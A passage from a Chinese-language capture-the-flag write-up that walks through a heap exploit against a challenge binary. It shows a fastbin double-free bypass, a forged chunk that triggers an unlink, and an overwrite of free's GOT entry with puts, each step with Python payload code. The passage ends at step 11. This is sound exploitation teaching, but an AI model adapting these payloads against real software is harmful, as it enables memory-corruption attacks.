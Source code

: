 在這裡 small 很像是重複 `free` 了兩次，但是因為 fastbin 只會檢查 fasttop 也就是 fastbin list 裡的第一個，因為剛剛在 keep huge 回收 fastbin 時被拿掉了所以可以 bypass double free 的檢查。

這裡 keep small 時輸入的 input 就可以開始偽造 fake chunk 了，payload 如下：

~~~python
fake_fd = 0x6020d0-0x18
fake_bk = 0x6020d0-0x10
payload = ""
payload += p64(0x0) # previous size not important
payload += p64(0x21) # fake chunk size
payload += p64(fake_fd)
payload += p64(fake_bk)
payload += p64(0x20) # fake previous size for big chunk
~~~

因為等等會利用 wipe(big) 來進行 unlink 所以這裡我們需要的任意 address 位置就把它設在 `0x6020d0` 也就是 global buffer 上的 small_buf 的位置，才能進行 renew。在這裡利用 payload 把 small chunk 可寫的地方當成另一個 chunk，然後 fake big chunk 的 previous size 這樣他在進行 unlink 才會找到我們偽造的 fd 跟 bk。

7. wipe(big) # trigger unlink

此時 `0x6020d0` 的位置，也就是 small_buf 的位置已經指到 global buffer 上了，後面就是利用 renew 來進行任意位置讀寫。
~~~assembly
0x6020b0:       0x00007f388c24f620      0x0000000000000000
0x6020c0:       0x00000000007fe9d0      0x00007f388c3e4010
0x6020d0:       0x00000000006020b8      0x0000000100000000
0x6020e0:       0x0000000000000001      0x0000000000000000
~~~

8. renew(small)

payload :

~~~python
payload = ""
payload += p64(0x0) # padding
payload += p64(free_got) # big_buf
payload += p64(0x0)
payload += p64(0x6020c0) # for write arbitrary
payload += p32(1)*3 # let us be easy to renew
~~~

在這裡我們把 `big_buf` 指到了 `free` 的 GOT entry，把 `small_buf` 指到了 `&big_buf`，之後好二次寫入，後面的 p32(1)*3 是為了讓 buf inuse 設成 1 才能進行 renew。

9. renew(big) 

接著利用 renew(big) 來把 `free` 的 GOT entry 上得值 hijack 成 call `puts`

payload :

~~~python
puts_plt = 0x400760
payload = p64(puts_plt)*2
~~~

10. renew(small) 
11. wipe(big)
